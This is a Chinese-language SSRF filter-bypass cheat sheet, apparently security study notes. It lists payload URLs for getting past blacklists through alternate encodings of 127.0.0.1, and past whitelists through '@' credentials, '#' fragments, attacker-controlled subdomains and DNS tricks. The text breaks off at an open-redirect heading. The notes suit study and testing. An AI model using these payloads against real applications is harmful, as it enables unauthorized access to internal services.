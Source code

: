 ## 绕过

### 1. 基于黑名单的输入过滤器的 SSRF

某些应用程序会阻止包含主机名（如`127.0.0.1`和`localhost`）或敏感 URL（如`/admin`. 在这种情况下，您通常可以使用各种技术来绕过过滤器

*   使用 的替代 IP 表示形式`127.0.0.1`，例如`2130706433`、`017700000001`或`127.1`。

    ```shell
    http://localhost/         # localhost就是代指127.0.0.1
    http://0/                 # 0在window下代表0.0.0.0，而在liunx下代表127.0.0.1
    http://[0:0:0:0:0:ffff:127.0.0.1]/    # 在liunx下可用，window测试了下不行
    http://[::]:80/           # 在liunx下可用，window测试了下不行
    http://127。0。0。1/       # 用中文句号绕过
    http://①②⑦.⓪.⓪.①
    http://127.1/
    http://127.00000.00000.001/ # 0的数量多一点少一点都没影响，最后还是会指向127.0.0.1
    ```
* 注册您自己的解析为`127.0.0.1`. 您可以`spoofed.burpcollaborator.net`用于此目的。
* 使用 URL 编码或大小写变体混淆被阻止的字符串。

### 2. 基于白名单的输入过滤器的 SSRF

一些应用程序只允许输入匹配、开头或包含允许值的白名单。在这种情况下，您有时可以利用 URL 解析中的不一致来绕过过滤器。

*   `@`您可以使用字符 在主机名之前的 URL 中嵌入凭据。例如：

    ```shell
    https://expected-host@evil-host

    http://abc@127.0.0.1
    实际上是以用户名abc连接到站点127.0.0.1，同理
    ```
*   您可以使用该`#`字符来指示 URL 片段。例如：

    ```shell
    https://evil-host#expected-host
    ```
*   您可以利用 DNS 命名层次结构将所需输入放入您控制的完全限定 DNS 名称中。例如：

    ```shell
    https://expected-host.evil-host
    # 原理是DNS解析。xip.io可以指向任意域名，即
    127.0.0.1.xip.io，可解析为127.0.0.1
    ```
* 例如参数中使用的 URL 必须以 **https://website.thm 开头的规则。** 攻击者可以通过在攻击者的域名上创建子域来快速规避此规则，例如 https://website.thm.attackers-domain.thm。应用程序逻辑现在将允许此输入并让攻击者控制内部HTTP请求。
* 您可以对字符进行 URL 编码以混淆 URL 解析代码。如果实现过滤器的代码处理 URL 编码字符的方式与执行后端 HTTP 请求的代码不同，这将特别有用。
* 您可以结合使用这些技术。

### 3. 通过开放重定向绕过 SSRF 过滤器

